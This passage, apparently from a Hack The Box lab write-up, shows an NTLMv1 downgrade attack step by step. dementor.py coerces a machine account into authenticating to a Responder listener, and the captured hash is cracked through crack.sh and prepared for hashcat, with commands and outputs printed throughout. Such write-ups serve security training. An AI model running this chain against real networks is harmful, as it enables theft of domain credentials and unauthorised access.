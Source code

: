 ```
root@kali:$ proxychains -q ./dementor.py -d htb.local -u bob -p 'Passw0rd1!' 10.14.14.37 192.168.3.201
[SMB] NTLMv1 Hash     : DEV$::HTB:F69E06E7A3CF92C6525DB6A4FD8EDA2132BF0CDA26B96BD8:F69E06E7A3CF92C6525DB6A4FD8EDA2132BF0CDA26B96BD8:1122334455667788
```

Btw, this would have happend if we had not used the `--lm` flag (with SSP enabled Client Challenged is added to the authentication process, see *Andrei Miroshnikov. Windows Security Monitoring: Scenarios and Patterns, Part III, pp. 330-335.*):

```
root@kali:$ ./Responder.py -vI tun0
root@kali:$ proxychains -q ./dementor.py -d htb.local -u bob -p 'Passw0rd1!' 10.14.14.37 192.168.3.201
[SMB] NTLMv1-SSP Hash     : DEV$::HTB:95D546CD84FACA1D00000000000000000000000000000000:B45CDCF2A344D085D678142D0AD39BD3C287A817CF4240D0:1122334455667788
```

4\. Crack the response with [crack.sh](https://crack.sh/get-cracking/)

Input:

```
NTHASH:F69E06E7A3CF92C6525DB6A4FD8EDA2132BF0CDA26B96BD8
```

Output (via email):

```
Crack.sh has successfully completed its attack against your NETNTLM handshake. The NT hash for the handshake is included below, and can be plugged back into the 'chapcrack' tool to decrypt a packet capture, or to authenticate to the server:

Token: $NETNTLM$1122334455667788$F69E06E7A3CF92C6525DB6A4FD8EDA2132BF0CDA26B96BD8
Key: fc64914083cfe79b3a01cd44550044fe

This run took 30 seconds. Thank you for using crack.sh, this concludes your job.
```

Got the NTHash: `fc64914083cfe79b3a01cd44550044fe`. To validate the result you want to download [hashcat-utils](https://github.com/hashcat/hashcat-utils/releases) and run the command:

```
root@kali:$ ./ct3_to_ntlm.bin 32BF0CDA26B96BD8 1122334455667788
44fe  <-- final 4 characters of NTLM hash
```

To crack locally with hashcat and [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi):

```
root@kali:$ python3 ./ntlmv1.py --ntlmv1 'DEV$::HTB:F69E06E7A3CF92C6525DB6A4FD8EDA2132BF0CDA26B96BD8:F69E06E7A3CF92C6525DB6A4FD8EDA2132BF0CDA26B96BD8:1122334455667788'
Hashfield Split:
['DEV$', '', 'HTB', 'F69E06E7A3CF92C6525DB6A4FD8EDA2132BF0CDA26B96BD8', 'F69E06E7A3CF92C6525DB6A4FD8EDA2132BF0CDA26B96BD8', '1122334455667788']

Hostname: HTB
Username: DEV$
Challenge: 1122334455667788
LM Response: F69E06E7A3CF92C6525DB6A4FD8EDA2132BF0CDA26B96BD8
NT Response: F69E06E7A3CF92C6525DB6A4FD8EDA2132BF0CDA26B96BD8
CT1: F69E06E7A3CF92C6
CT2: 525DB6A4FD8EDA21
CT3: 32BF0CDA26B96BD8

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin 32BF0CDA26B96BD8 1122334455667788

To crack with hashcat create a file with the following contents:
F69E06E7A3CF92C6:1122334455667788
```